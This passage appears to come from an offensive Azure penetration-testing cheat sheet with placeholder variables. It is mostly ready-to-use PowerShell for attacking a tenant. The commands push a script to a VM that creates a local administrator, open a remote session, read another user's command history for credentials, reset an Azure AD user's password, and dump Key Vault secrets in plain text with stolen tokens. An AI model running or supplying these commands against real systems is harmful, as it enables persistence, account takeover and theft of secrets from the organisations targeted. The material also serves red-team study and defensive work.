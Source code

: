 Once we know the interface we can craft a file to add a local administrator user

```powershell
$passwd = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
New-LocalUser -Name {{ Name username }} -Password $passwd
Add-LocalGroupMember -Group Administrators -Member {{ Name username }}
```

Now the command can be ran in the Azure VM

```powershell
Invoke-AzVMRunCommand -VMName {{ VMName }} -ResourceGroupName {{ ResourceGroup resourceGroup }} -CommandId 'RunPowerShellScript' -ScriptPath 'adduser.ps1' -Verbose
```

A powershell session can be used to connect, run commands or transfer files:

```powershell
$password = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('{{ Name username }}', $Password)
$sess = New-PSSession -ComputerName {{ IP }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
    
    # Juicy information can be found in powershell history
    cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

If we have access to the vm but no password we can try to reset the password as well

```powershell
$password = "{{ Password password }}" | ConvertTo-SecureString -AsPlainText –Force
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "{{ UserMail user@domain.com }}"}).ObjectId | Set-AzureADUserPassword -Password $Password –Verbose
```

## Dumping keyvaults

With a token to management.azure.com and other to vault.azure.net we can try to access the keyvaults and read its contents

```powershell
$armToken = '{{ ARMToken eyJ0eX }}'
$vaultToken = '{{ VaultToken eyJ0eX }}'

Connect-AzAccount -AccessToken $armToken -AccountId {{ AccountId }} -KeyVaultAccessToken $vaultToken

# List keyvaults
Get-AzKeyVault

# Get role 
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname}}

# Get secret plain
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }} –AsPlainText
```
